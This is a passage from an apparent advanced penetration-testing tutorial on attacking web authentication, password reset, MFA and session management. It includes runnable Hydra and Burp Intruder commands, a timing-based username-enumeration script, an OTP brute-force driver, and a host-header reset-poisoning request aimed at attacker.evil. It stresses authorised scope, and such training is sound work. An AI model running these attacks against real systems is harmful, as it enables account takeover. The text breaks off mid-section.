








**Level:** Advanced · **Track:** Penetration Testing · **Read time:** 250 min

This is Chapter 3 of the Web Application Pentest notebook. Chapter 1 gave you the
method — the OWASP Web Security Testing Guide and a phased workflow — and Chapter 2
turned one in-scope hostname into a complete map of paths, parameters, methods and
hidden endpoints. Now you have a map. This chapter is about attacking the single
most valuable part of that map: the boundary that decides *who you are* and *what
you are allowed to touch*.

Almost every application splits into two questions. **Authentication** answers "are
you who you say you are?" — the login form, the password reset, the multi-factor
prompt, the OAuth redirect. **Authorisation** (access control) answers "now that we
know who you are, are you allowed to do *this*?" — the check that stops user 1001
from reading order 1002, or a support agent from hitting the admin panel. Between
them sits **session management**: the machinery that remembers you passed the login
so the server does not re-authenticate every single request. Break any of the three
and the application's entire security model collapses, no matter how clean its
input handling is.

This is not an accident of emphasis. Year after year, broken access control and
authentication failures sit at the top of the OWASP Top 10 (A01: Broken Access
Control and A07: Identification and Authentication Failures in the 2021 list), and
IDOR-class bugs are consistently among the highest-frequency, highest-paying
categories on HackerOne and Bugcrowd. They pay because they are *business logic*
bugs — a horizontal IDOR that leaks every customer's invoices is worth more to an
attacker and to a program than a reflected XSS that needs a victim to click a link.
They are common because they cannot be fixed by a library: a WAF can pattern-match a
SQL injection payload, but it has no idea that *this* user should not be allowed to
see *that* record. Only the application's own logic knows, and that logic is written
by humans under deadline.

Everything in this chapter assumes you are inside an authorised scope with explicit
permission to test the accounts, credentials and data involved. Authentication
testing means sending other people's-shaped requests, brute-forcing logins, and
reading records that are not "yours" in the demo sense — all of which is illegal and
unethical outside a signed engagement or an in-scope bug-bounty program. Use
dedicated test accounts the client provisioned for you, never real customer
credentials, and stay inside the rate limits and data-handling rules your rules of
engagement set. When you find an IDOR, prove it with the *minimum* data needed to
demonstrate impact — one other record, screenshotted and redacted — not a full dump.

## Part 1: The Three Boundaries and Why They Fail Together

Before touching a tool, build the mental model. A request to a protected resource
passes through three gates in order, and a tester probes each independently because
each fails in its own characteristic way.



- **Authentication** is where identity is established, usually once, at `/login`.
  It fails when you can guess, reset, brute-force, or entirely skip the credential
  check — or when it tells you *which* half of the credential was wrong.
- **Session management** is where identity is *remembered* between requests via a
  cookie, bearer token, or JWT. It fails when the token is predictable, never
  expires, survives logout, can be fixed by an attacker, or is trusted despite being
  tampered with.
- **Authorisation** is where each request is checked against *what this identity may
  do*. It fails when the check is missing (BOLA/IDOR — you swap an ID and get
  someone else's object) or when it trusts a client-supplied role (privilege
  escalation — you send `"role":"admin"` and the server believes you).

The reason they fail *together* in practice is that developers reason about the
"happy path" — a logged-in user clicking their own links — and forget the adversary
who forges the token, skips the login, or edits the ID. Your job as a tester is to
walk each gate deliberately and ask: *what happens if I lie here?*

**A discipline that will save you hours:** always test with (at least) two accounts of
the same privilege level (call them `userA` and `userB`) and one lower-privilege and
one higher-privilege account if the app has roles. Almost every access-control test
in this chapter is "do something as `userA`, capture the request, replay it with
`userB`'s session (or no session), and see whether the server enforces the boundary."
Provision these before you start.

## Part 2: Understanding the Login Flow Before You Attack It

You cannot test what you do not understand. Open Burp Suite (Chapter 2 taught its
installation and proxy setup; if you skipped it, the one-paragraph recap is: Burp is
an intercepting HTTP proxy — it sits between your browser and the target, logging and
letting you modify every request. Launch it, set your browser's proxy to
`127.0.0.1:8080`, install Burp's CA certificate so HTTPS works, and every request now
flows through the **Proxy > HTTP history** tab). With Burp running, perform one clean
login by hand and watch exactly what crosses the wire.

A typical form login looks like this in the raw request Burp captures:

```http
POST /login HTTP/1.1
Host: target.example
Content-Type: application/x-www-form-urlencoded
Cookie: session=8f3a...; csrf=Xy9...
Content-Length: 51

username=alice&password=Summer2026%21&csrf=Xy9...
```

And the response that establishes your session:

```http
HTTP/1.1 302 Found
Location: /dashboard
Set-Cookie: session=k3Jd9x...; Path=/; HttpOnly; Secure; SameSite=Lax
```

Read every line, because each is an attack surface:

| Element | What to note | Why it matters to a tester |
|---|---|---|
| HTTP method & path | `POST /login` vs `POST /api/v2/auth` | API logins often lack the CSRF/rate-limit protections the web form has |
| Credential encoding | form-urlencoded, JSON, Basic auth | Changes how you fuzz; JSON APIs sometimes accept type-confusion (`"password":true`) |
| CSRF token | present? per-request or static? | A static or missing token means the flow may be brute-forceable and CSRF-able |
| Response on success | 302 vs 200 + JSON | Your brute-force "success" oracle depends on this — status, length, or body |
| Response on failure | generic vs "user not found" | A distinct message is a username-enumeration oracle (Part 3) |
| `Set-Cookie` flags | `HttpOnly`, `Secure`, `SameSite` | Missing flags are real findings (Part 8) |
| Additional tokens | JWT in body, `Authorization` header | Signals a token-based session you'll attack in Part 10 |

**Pentester landing on a new login:** send the successful and the failed login to Burp
**Repeater** (right-click > *Send to Repeater*) so you have two reference requests you
can mutate freely without re-typing credentials. Note the exact byte-length of each
response — that number becomes your success/failure oracle for every automated attack
that follows.

## Part 3: Username Enumeration — Turning a Login Into a User Directory

Username enumeration is the quiet first step of almost every authentication attack:
before you brute-force a password you want to know *which usernames are real*, so you
are not wasting guesses on accounts that do not exist. An application "enumerates"
users whenever it behaves observably differently for a valid username than for an
invalid one — even if it never says "user not found" in words.

The differences leak through four channels:



1. **Message text.** "Incorrect password" for a real user vs "Unknown username" for a
   fake one is the classic tell. Subtler: a trailing period, a capital letter, or an
   extra whitespace character that differs between the two responses.
2. **HTTP status / redirect.** A valid user might get a `200` with the form re-rendered
   while an invalid one gets a `302`, or vice versa.
3. **Response length.** Even when the visible message looks identical, one branch may
   include an extra hidden field, a different CSRF token length, or a whitespace
   difference — so the `Content-Length` differs by a few bytes. This is the single most
   common enumeration oracle and the one beginners miss because the page *looks* the
   same in a browser.
4. **Response time.** If the app hashes the submitted password only when the username
   exists (to compare against the stored hash) but short-circuits for unknown users,
   a real username takes measurably longer — often 100–400 ms with bcrypt. This is a
   *timing oracle* and it works even when text, status and length are identical.

### Hands-on: enumerating with Burp Intruder

Burp **Intruder** is Burp's built-in fuzzing engine: you mark positions in a request,
give it a payload list, and it replays the request once per payload, tabulating the
responses. It is the workhorse for enumeration and brute-forcing. Here is the full
workflow from scratch.

Send the failed-login request to Intruder (`Ctrl+I`). In the **Positions** tab, clear
Burp's auto-selected positions (*Clear §*), then wrap only the username value in
payload markers so it becomes the single injection point, keeping the password fixed
to a deliberately wrong constant:

```http
POST /login HTTP/1.1
Host: target.example
Content-Type: application/x-www-form-urlencoded

username=§candidate§&password=WrongPassword123!
```

Choose the **Sniper** attack type (one payload set, one position — perfect for a
single field). Load a username wordlist in the **Payloads** tab; SecLists ships good
ones:

```bash
# Kali: SecLists lives here after `sudo apt install seclists`
/usr/share/seclists/Usernames/top-usernames-shortlist.txt
/usr/share/seclists/Usernames/Names/names.txt
```

Start the attack. In the results table, add a **Length** column (it is there by
default) and sort by it. If valid usernames produce a different length than invalid
ones, they cluster and jump out instantly. For message-based oracles, add a **Grep –
Extract** or **Grep – Match** rule (Intruder > *Options* > *Grep – Match*, add the
string `Invalid username`) and Intruder flags every response containing it.

Realistic Intruder results table when a length oracle exists:

```
Payload          Status   Length   Comment
--------------------------------------------
administrator    200      3421     <- longer: user exists
alice            200      3421     <- user exists
bob              200      3421     <- user exists
zzzsysadmin      200      3388     invalid
notreal          200      3388     invalid
guest            200      3421     <- user exists
```

The 33-byte difference is the whole finding: `administrator`, `alice`, `bob`, and
`guest` exist; the rest do not. You have converted a login form into a user directory.

### Timing-based enumeration

When length and text are identical, script the timing oracle. This Python snippet
submits each candidate with a deliberately *long* password (so the server spends real
time hashing only for valid users) and records response time:

```python
import requests, statistics, time

URL = "https://target.example/login"
LONG_PW = "A" * 100  # forces full hash comparison when user exists
candidates = ["administrator", "alice", "notreal", "bob", "ghost"]

for user in candidates:
    times = []
    for _ in range(5):                       # average out network jitter
        t0 = time.perf_counter()
        requests.post(URL, data={"username": user, "password": LONG_PW})
        times.append(time.perf_counter() - t0)
    print(f"{user:15} median={statistics.median(times)*1000:6.1f} ms")
```

Sample output — the valid accounts stand out by a clear margin:

```
administrator   median= 312.4 ms
alice           median= 305.1 ms
notreal         median=  48.7 ms
bob             median= 298.9 ms
ghost           median=  47.2 ms
```

**Where else usernames leak:** registration ("this email is already registered"),
password reset ("we've sent a reset link" for real users vs "no account found"), and
verbose API errors. The fix a blue team applies — and the thing you flag as a finding —
is *uniform responses*: identical message, status, length and (via a constant-time
dummy hash) timing, whether or not the account exists.

**Bug-bounty note:** username/email enumeration on its own is often triaged as
low/informational, but it is a force-multiplier you almost always chain — enumerate to
build a valid-user list, then credential-stuff or password-spray only those. Report it
bundled with the impact it enables.

## Part 4: Brute-Forcing and Password Attacks Done Properly

Once you know which usernames are real, the question is whether their passwords are
guessable. There are four distinct attacks here and confusing them is a common beginner
error:

| Attack | Usernames | Passwords | Detection risk | When to use |
|---|---|---|---|---|
| **Brute-force** | one | many | high (many fails on one account) | single high-value account, weak lockout |
| **Dictionary** | one | curated wordlist | high | targeted, with OSINT-derived list |
| **Password spraying** | many | one (or few) common | low (few fails per account) | large user list, account-lockout in place |
| **Credential stuffing** | leaked pairs | leaked pairs | medium | reuse from a breach corpus |

**Password spraying** deserves emphasis because it defeats the standard defence. Most
apps lock an account after N failed passwords. Spraying flips the loop: try *one*
common password (`Winter2026!`, `Company@123`) across *every* enumerated user before
moving to the next password. Each account sees only one failure per round, so the
lockout never triggers, and in a large org someone always used the season-plus-year
pattern.

### Tool from scratch: Hydra

`hydra` is a fast, parallelised network login brute-forcer that speaks many protocols
(HTTP forms, SSH, FTP, RDP, SMB, and more). It ships on Kali; install elsewhere with
`sudo apt install hydra`. Its power and its footgun are the same thing: it is *fast*,
so on a real engagement you throttle it (`-t`) to respect rate limits and avoid
knocking the service over.

The hardest part of Hydra against a web form is the `http-post-form` module string,
which has three colon-separated fields: the path, the POST body (with `^USER^` and
`^PASS^` placeholders), and a **failure string** Hydra greps for to decide a login
failed.

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt \
  target.example http-post-form \
  "/login:username=^USER^&password=^PASS^:Invalid username or password" \
  -t 4 -f -V
```

Flag by flag:

- `-L users.txt` — a **list** of usernames (lowercase `-l` for a single username).
- `-P rockyou.txt` — a **list** of passwords (uppercase; lowercase `-p` for a single
  password). `rockyou.txt` is the canonical 14-million-line leaked-password list,
  gzipped at `/usr/share/wordlists/rockyou.txt.gz` on Kali — `gunzip` it first.
- `target.example` — the host (add `https-post-form` and `-S`/port for TLS).
- The module string — path, body, and the **failure condition**. If instead you know
  the *success* string, prefix it with `S=` (e.g. `S=Location: /dashboard`).
- `-t 4` — run **4 parallel** connections. Default is 16; lower it to stay polite and
  under rate limits.
- `-f` — **stop** after the first valid pair is found for a host.
- `-V` — **verbose**: print every attempt so you can watch progress and confirm your
  form string is correct.

Sample output on success:

```
[DATA] attacking http-post-form://target.example:443/login...
[443][http-post-form] host: target.example  login: alice  password: password1
[STATUS] attack finished for target.example (valid pair found)
```

### Brute-forcing with Burp Intruder (Cluster Bomb)

When the form has a CSRF token or other per-request state, Hydra's simple grep model
struggles and Burp is cleaner. For a two-variable attack — many usernames × many
passwords — use Intruder's **Cluster Bomb** attack type, which iterates every
combination of two payload sets:

```http
POST /login HTTP/1.1
Host: target.example
Content-Type: application/x-www-form-urlencoded

username=§alice§&password=§password§
```

Set payload set 1 to your username list, payload set 2 to your password list, run, and
sort by response length or status to find the anomalous "success" row. For
**spraying** specifically, use **Pitchfork** if you have paired lists, or simply put
one password in set 2 and all users in set 1 with the **Sniper**/**Battering ram**
type.

**Handling per-request CSRF tokens:** if each login page issues a fresh token, a naive
Intruder run fails because the token goes stale. Burp's **macros** (Project options >
Sessions) or the community extension **"Request Timer"**/**"CSRF Token Tracker"** can
fetch a fresh token before each attempt. The professional move is often to test the
API endpoint directly, which usually skips CSRF entirely — this is why Part 2 told you
to note whether an `/api/auth` path exists.

**Red team usage:** password spraying is the bread-and-butter initial-access technique
against Office 365, VPN portals and OWA precisely because it stays under lockout
thresholds; the same logic applies to any web login. **Blue team usage:** the detection
signature is not "many failures on one account" (that is classic brute-force) but "one
or two failures across *many* accounts in a short window, often from one source IP or
ASN" — covered in Part 13.

## Part 5: Default, Weak, and Leaked Credentials

Before elaborate attacks, try the boring ones — they win constantly. A large fraction
of real compromises start with a credential that was never guessed at all: it was
shipped as a default, reused from a breach, or set to something trivial.

- **Default credentials.** Admin panels, routers, database consoles, Jenkins, Tomcat,
  Grafana, and countless appliances ship with documented defaults (`admin:admin`,
  `tomcat:tomcat`, `admin:password`). SecLists' `Passwords/Default-Credentials/`
  directory and the `default-passwords.csv` list are your reference. If Chapter 2's
  content discovery turned up `/manager/html` (Tomcat) or `/admin`, try the vendor
  defaults *first*.
- **Weak passwords on real accounts.** Once you have a valid username, a short curated
  list (`Password1`, `Welcome1`, `Company@2026`, the season-year pattern) often lands
  faster than rockyou.
- **Leaked/reused credentials (credential stuffing).** If the target's users appear in
  known breach corpora, reused passwords let you log in with a *legitimate* pair — no
  brute-force noise at all. On an authorised engagement this is scoped carefully; in
  bug bounty it is usually out of scope unless the program explicitly allows it.

**CTF/lab relevance:** almost every beginner HackTheBox/TryHackMe web box has a default
or trivially weak credential somewhere — it is often the intended foothold, so a
five-minute default-cred check before deep testing pays off constantly.

## Part 6: Attacking Password Reset and Account Recovery

The password-reset flow is a second, parallel authentication path — and because it is
built to let a user *bypass* knowing their password, it is a rich source of full
account-takeover bugs. Test it as carefully as the login itself. There are five
recurring flaw families.



1. **Predictable reset tokens.** If the token in the reset link is sequential, a
   timestamp, a short number, or an MD5 of the username, you can generate the victim's
   token yourself. Request a reset for *your own* account, inspect the token's
   structure, and see whether it is a function of guessable inputs.
2. **Host-header / reset-link poisoning.** Many apps build the reset URL from the
   incoming `Host` header (or an `X-Forwarded-Host`). Change it and the victim's email
   contains a link pointing at *your* server, which captures the token when they click:

   ```http
   POST /forgot-password HTTP/1.1
   Host: attacker.evil
   Content-Type: application/x-www-form-urlencoded

   email=victim@target.example
   ```

   The victim receives `https://attacker.evil/reset?token=…`. When they click, your
   server logs the token; you complete the reset against the real host.
3. **Recipient parameter tampering.** Some flows include the destination in the request
   body or a hidden field. Supplying an extra or overridden email/phone can redirect
   the reset to you:

   ```http
   email=victim@target.example&email=attacker@evil.com
   ```

   Parameter pollution like this sometimes sends the token to the *second* value.
4. **Token never expires / is reusable.** Capture a reset token, use it, then try the
   same link again — or wait a day and try. A token that works twice, or long after
   issue, widens the attacker's window dramatically.
5. **Weak knowledge-based recovery.** "What is your mother's maiden name?" style
   questions are often OSINT-able or brute-forceable with no rate limit.

**Also test the reset flow for username enumeration** (Part 3) — "a link has been sent"
for real users vs "no account with that email" for fakes is one of the most common
enumeration oracles in the wild.

## Part 7: Multi-Factor Authentication (MFA) Bypasses

MFA is supposed to make a stolen password useless. In practice it is frequently
implemented as a bolt-on that the rest of the app fails to enforce consistently, and
those seams are where you test. The bypasses fall into recognisable patterns.

- **Response manipulation.** The MFA-verify endpoint returns something like
  `{"mfa":"required"}` or `{"success":false}`. If the *client* decides whether MFA
  passed based on that response, editing it in Burp (`false` → `true`,
  `"required"` → `"verified"`) can walk you straight in. The server should enforce
  the decision; sometimes it does not.
- **Skipping the MFA step (forced browsing).** After submitting the password you land on
  `/mfa`. Try navigating directly to `/dashboard` or replaying an authenticated request
  captured from a fully-logged-in session. If the app issued a *fully privileged*
  session cookie before MFA and only relies on redirecting you to the MFA page, the
  session is already valid and the MFA gate is cosmetic.
- **Brute-forcing the OTP.** A 6-digit code has a million possibilities — trivial to
  brute-force if there is no rate limit and no attempt cap. Test whether the verify
  endpoint locks after a handful of wrong codes, whether the code is reusable, and
  whether a *new* code invalidates old ones (it should).
- **Code reuse / lack of binding.** Does an OTP issued for `userA` work for `userB`? Is
  the same code valid across multiple logins? Is it tied to the specific pending
  session, or just "a valid current code for anyone"?
- **Backup-code and "remember this device" abuse.** Backup codes are often weaker
  (shorter, no rate limit). "Remember me" sets a token that skips MFA — if that token
  is predictable or not bound to the device, it is a bypass.
- **Race conditions.** Submitting the OTP verification many times in parallel can
  sometimes slip an extra attempt past the counter, or a login race can establish a
  session before MFA is registered as required.

### Worked example: OTP brute-force with Turbo Intruder

`rockyou` won't help against a numeric OTP; you need all six-digit combinations at
speed. Burp's **Turbo Intruder** extension (install from the BApp Store) sends
thousands of requests with a custom Python driver — ideal here. A minimal driver:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=100,
                           pipeline=False)
    for i in range(1000000):
        code = str(i).zfill(6)               # 000000 .. 999999
        engine.queue(target.req, code)

def handleResponse(req, interesting):
    # flag any response that is NOT the generic "invalid code"
    if 'Invalid code' not in req.response:
        table.add(req)
```

The request template marks the OTP field with `%s`:

```http
POST /mfa/verify HTTP/1.1
Host: target.example
Cookie: session=<pending-mfa-session>
Content-Type: application/x-www-form-urlencoded

otp=%s
```

If the endpoint is unthrottled, the run finds the correct code and `handleResponse`
surfaces the single non-"Invalid code" response. That it *worked at all* is the
finding — a correctly built verify endpoint caps attempts and invalidates the pending
session after a few failures.

**Bug-bounty note:** MFA bypasses are consistently high-severity payouts because they
defeat the control users trust most. The PortSwigger Web Security Academy has a
dedicated authentication-vulnerabilities module with labs for every pattern above —
listed in Part 14.

## Part 8: Session Management Internals — Cookies, IDs and Flags

Once authentication succeeds, the server must remember you. It does so with a **session
token** — most often a cookie carrying an opaque session ID that maps to server-side
state, or a self-contained token (JWT) that *is* the state. Everything an attacker
wants after login — impersonation, persistence, privilege — routes through stealing,
forging, or fixing that token. Understand the cookie mechanics cold.

A `Set-Cookie` header carries the token plus attributes that are, individually, real
findings when missing or wrong:

```http
Set-Cookie: session=k3Jd9x...; Path=/; Domain=target.example; Expires=...; HttpOnly; Secure; SameSite=Lax
```

| Attribute | What it does | Failure when absent/misconfigured |
|---|---|---|
| `HttpOnly` | hides the cookie from `document.cookie` (JavaScript) | Without it, any XSS can steal the session cookie directly |
| `Secure` | cookie only sent over HTTPS | Without it, the cookie leaks over any plaintext request/redirect |
| `SameSite` | controls cross-site sending (`Strict`/`Lax`/`None`) | `None` (or absent, on old browsers) widens CSRF exposure |
| `Domain` | which hosts receive the cookie | Too-broad (`.example.com`) shares the session with every subdomain — one XSS on a marketing subdomain takes the app |
| `Path` | which paths receive the cookie | Rarely a strong control; note but don't over-rely |
| `Expires`/`Max-Age` | lifetime | No expiry means a stolen cookie is valid forever |

**Checking flags quickly:** Burp's **Proxy > HTTP history** shows every `Set-Cookie`; the
passive scanner flags missing `HttpOnly`/`Secure` automatically. In the browser,
DevTools > Application > Cookies lists them with flag columns. Any auth cookie missing
`HttpOnly` or `Secure` is a legitimate, reportable finding — modest on its own, serious
in combination with an XSS or a mixed-content path.

### Session-token entropy and predictability

If the session ID is not random enough, an attacker can *predict* or *brute-force* a
valid one and hijack a session with no credential at all. Collect a few hundred tokens
(log in and out repeatedly, or use Burp Intruder to hammer the login and harvest
`Set-Cookie` values) and analyse them:

- Are they sequential or incrementing? (`user_id` + counter is a catastrophe.)
- Do they decode (base64, hex) into something structured — a username, a timestamp, a
  small integer?
- Do fixed prefixes/suffixes shrink the real entropy?

Burp's **Sequencer** tool automates the statistical side: point it at the token in a
response (**Send to Sequencer**, select the cookie), capture a few thousand samples,
and it estimates the effective bits of entropy and runs FIPS randomness tests. A result
well under ~64 bits of real entropy, or an obvious structure, is a serious finding.

**Worth decoding by hand first:** a token like `dXNlcjoxMDAxOjE3MzA0…` base64-decodes to
`user:1001:1730…` — a username, an ID and a timestamp — meaning you can *forge* another
user's session by editing the ID and re-encoding. This is shockingly common in
home-grown session schemes.

## Part 9: Session Fixation, Logout Failures and Invalidation Bugs

Two classic session bugs have nothing to do with token strength and everything to do
with *lifecycle* — when tokens are issued, rotated and destroyed.

### Session fixation

The rule a secure app follows is: **issue a brand-new session ID at the moment of
login.** When it does not — when the pre-login session ID is kept after authentication —
an attacker who can *set* a victim's session ID before they log in ends up sharing an
authenticated session with them.



**How to test:** capture your session ID before logging in. Log in. Compare the session
ID after login. If it is *identical*, the app does not rotate on authentication —
session fixation is possible. Confirm impact by setting a known ID, logging in with it,
and showing that the same ID is authenticated from a second browser.

### Logout and invalidation failures

Logout should destroy the session *server-side*, not merely delete the client cookie.
Test methodically:

1. Log in, capture an authenticated request in Repeater.
2. Log out in the browser.
3. Replay the captured request. If it still returns the protected resource, **logout did
   not invalidate the session server-side** — the token lives on and a stolen copy is
   still usable after the user "logged out."
4. Repeat the same test after a **password change** — changing the password should kill
   all other active sessions. If the old session survives a password change, a user who
   changes their password *because they suspect compromise* stays compromised.
5. Check **idle and absolute timeouts**: does a session ever expire on its own? Leave one
   idle and replay hours later.

These are woven into almost every real assessment because they are trivially testable
with just Repeater and yield genuine findings on a surprising fraction of apps.

## Part 10: JSON Web Tokens (JWT) — Full Attack Surface

Modern APIs and SPAs frequently replace opaque server-side session IDs with **JSON Web
Tokens**: a self-contained, signed token the server hands you at login and trusts on
every subsequent request (usually in an `Authorization: Bearer …` header or a cookie).
Because the token *carries its own claims* (who you are, your role) and the server
trusts the signature rather than a lookup, JWT flaws convert directly into
impersonation and privilege escalation. This is one of the densest attack surfaces in
the chapter, so we build it from zero.

### Structure

A JWT is three base64url-encoded parts joined by dots: `header.payload.signature`.

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhbGljZSIsInJvbGUiOiJ1c2VyIn0.3Rf...sig
```

- **Header** — `{"alg":"HS256","typ":"JWT"}` — the algorithm and type.
- **Payload** — the *claims*: `{"sub":"alice","role":"user","exp":1730000000}`. This is
  base64, **not encryption** — anyone can read it. Never trust a JWT payload as secret.
- **Signature** — a MAC/signature over `header.payload` using either a shared secret
